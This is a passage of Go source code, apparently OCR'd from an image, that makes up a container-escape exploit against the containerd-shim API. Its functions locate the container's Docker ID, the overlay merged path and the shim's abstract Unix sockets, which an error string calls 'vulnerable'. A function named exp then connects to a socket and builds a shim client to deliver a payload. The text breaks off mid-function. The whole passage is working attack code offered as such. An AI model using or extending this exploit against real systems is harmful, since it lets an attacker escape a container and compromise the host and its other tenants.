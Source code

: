 ```
func getDockerID() (string,  error) {
    re, err := regexp.Compile("pids:/docker/.*")
    if err != nil {
        return "", err
    }
    data, err := ioutil.ReadFile("/proc/self/cgroup")
    matches := re.FindAll(data, -1)
    if matches == nil {
        return "", errors.New("Cannot find docker id")
    }

    tmp_docker_id := matches[0]
    docker_id := string(tmp_docker_id[13 : len(tmp_docker_id)])
    return docker_id, nil

}

func getMergedPath() (string,  error) {
    re, err := regexp.Compile("workdir=.*")
    if err != nil {
        return "", err
    }
    data, err := ioutil.ReadFile("/etc/mtab")
    matches := re.FindAll(data, -1)
    if matches == nil {
        return "", errors.New("Cannot find merged path")
    }

    tmp_path := matches[0]
    path := string(tmp_path[8 : len(tmp_path)-8])
    merged := path + "merged/"
    return merged, nil

}

func getShimSockets() ([][]byte, error) {
    re, err := regexp.Compile("@/containerd-shim/.*\\.sock")
    if err != nil {
        return nil, err
    }
    data, err := ioutil.ReadFile("/proc/net/unix")
    matches := re.FindAll(data, -1)
    if matches == nil {
        return nil, errors.New("Cannot find vulnerable socket")
    }

    return matches, nil
}


func exp(sock string, docker_id string, payload_path string) bool {
    sock = strings.Replace(sock, "@", "", -1)
    conn, err := net.Dial("unix", "\x00"+sock)
    if err != nil {
        log.Println(err)
        return false
    }

    client := ttrpc.NewClient(conn)
    shimClient := shimapi.NewShimClient(client)

    ctx := context.Background()
    md := ttrpc.MD{} 
```